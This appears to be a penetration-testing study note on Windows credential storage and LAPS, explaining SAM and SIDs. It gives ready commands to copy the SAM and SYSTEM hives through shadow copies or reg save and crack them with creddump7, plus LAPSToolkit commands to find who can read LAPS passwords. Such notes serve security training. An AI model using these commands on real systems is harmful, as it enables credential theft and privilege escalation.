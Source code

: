 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_Creds_And_LAPS
---
```



<span style="font-size: 35px; color:red"><b>Windows Credentials and LAPS</b></span>
&nbsp;

Security Account Manager (SAM, <span style="color:red">C:\Windows\System32\config\SAM</span>) Database: DB that stores Local Windows Credentials as NTLM hashes (MD4 algorithm).
Every Windows account has a unique SID (Security Identifier): <span style="color:red">S-R-I-S</span> 
In this structure, the SID begins with a literal "S" to identify the string as a SID, followed by a <span style="color:red">revision level</span> (usually set to "1"), an <span style="color:red">identifier-authority</span> value (often "5") and one or more <span style="color:red">subauthority</span> values. The subauthority will always end with a <span style="color:red">Relative Identifier</span> (RID) representing a specific object on the machine.

To get SID of local administrator account, first ask for computername:
```powershell
$env:computername
```
And then check the SID passing the computername as parameter:
```powershell
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Dump SAM Credentials</b></span>

Create shadow volume 
```shell
wmic shadowcopy call create Volume='C:\'
```
To double check (should output something like <span style="color:red">Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1</span>):
```shell
vssadmin list shadows
```
And copy the SAM db from it:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
```
OR
save SAM and SYSTEM from registry:
```shell
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```
We then need to decrypt the DB:
```shell
sudo apt install python-crypto
sudo git clone https://github.com/Neohapsis/creddump7
```
and use it:
```
python pwdump.py /home/kali/system /home/kali/sam
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LAPS</b></span>
<span style="color:red">Local Administrator Password Solution</span>
Secure and scalable way of remotely managing the local administrator password for domain-joined computers.

Get all computers that are set up with LAPS (might not show plaintext password):
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

Get groups and then memebers that can fully enumerate the LAPS data (if showing "readers"):
```powershell
Find-LAPSDelegatedGroups
Get-NetGroupMember -GroupName "<Name_of_the_readers_group>"
```



